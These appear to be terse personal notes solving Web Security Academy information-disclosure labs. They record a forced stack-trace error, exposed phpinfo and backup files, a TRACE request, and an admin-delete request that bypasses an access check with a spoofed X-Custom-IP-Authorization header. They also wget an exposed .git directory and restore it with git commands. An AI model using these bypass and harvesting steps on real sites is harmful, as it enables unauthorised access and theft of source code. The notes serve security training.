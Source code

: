 ### Lab: Information disclosure in error messages

https://0a9e00660411ed19c08734ff00ab00e6.web-security-academy.net/product?productId=14asdasd

```
Internal Server Error: java.lang.NumberFormatException: For input string: "14asdasd"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)
	at java.base/java.lang.Integer.parseInt(Integer.java:668)
	at java.base/java.lang.Integer.parseInt(Integer.java:786)
	at lab.l.e.e.w.E(Unknown Source)
	at lab.p.v.p.p.L(Unknown Source)
	at lab.p.v.z.a.q.a(Unknown Source)
	at lab.p.v.z.u.lambda$handleSubRequest$0(Unknown Source)
	at h.v.b.n.lambda$null$3(Unknown Source)
	at h.v.b.n.G(Unknown Source)
	at h.v.b.n.lambda$uncheckedFunction$4(Unknown Source)
	at java.base/java.util.Optional.map(Optional.java:260)
	at lab.p.v.z.u.c(Unknown Source)
	at lab.a.p.e.o.z(Unknown Source)
	at lab.p.v.l.z(Unknown Source)
	at lab.a.p.e.h.s(Unknown Source)
	at lab.a.p.e.h.C(Unknown Source)
	at h.v.b.n.lambda$null$3(Unknown Source)
	at h.v.b.n.G(Unknown Source)
	at h.v.b.n.lambda$uncheckedFunction$4(Unknown Source)
	at lab.a.g1.C(Unknown Source)
	at lab.a.p.e.h.x(Unknown Source)
	at lab.a.p.l.n.q(Unknown Source)
	at lab.a.p.o.M(Unknown Source)
	at lab.a.y.o(Unknown Source)
	at lab.a.y.J(Unknown Source)
	at lab.a.y.V(Unknown Source)
	at h.v.x.e.i.C(Unknown Source)
	at h.v.x.e.i.r(Unknown Source)
	at h.v.x.e.i.run(Unknown Source)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1136)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:635)
	at java.base/java.lang.Thread.run(Thread.java:833)

Apache Struts 2 2.3.31
```


https://0a3500b003c51a89c1ac551f0019008e.web-security-academy.net/cgi-bin/phpinfo.php


https://0af700ab03139576c0e1483a00a30029.web-security-academy.net/backup/ProductTemplate.java.bak



TRACE /admin HTTP/1.1
Host: 0a77001d03f6bc7ec0d9d89000160034.web-security-academy.net
Cookie: session=Xyvjx4Zw2owVUPFvVaawxN84AldVKJHo
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2





GET /admin/delete?username=carlos HTTP/1.1
Host: 0a77001d03f6bc7ec0d9d89000160034.web-security-academy.net
Cookie: session=Xyvjx4Zw2owVUPFvVaawxN84AldVKJHo
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
X-Custom-IP-Authorization: 127.0.0.1
Content-Length: 2








https://stackoverflow.com/questions/23446635/how-to-download-http-directory-with-all-files-and-sub-directories-as-they-appear

https://stackoverflow.com/questions/17563726/how-can-i-see-the-changes-in-a-git-commit

wget -r --no-parent http://lab/.git

git restore .

git reset --hard 3d6e192a669ab4a279299441a8d2f5052dffea33

git diff 3d6e192a669ab4a279299441a8d2f5052dffea33





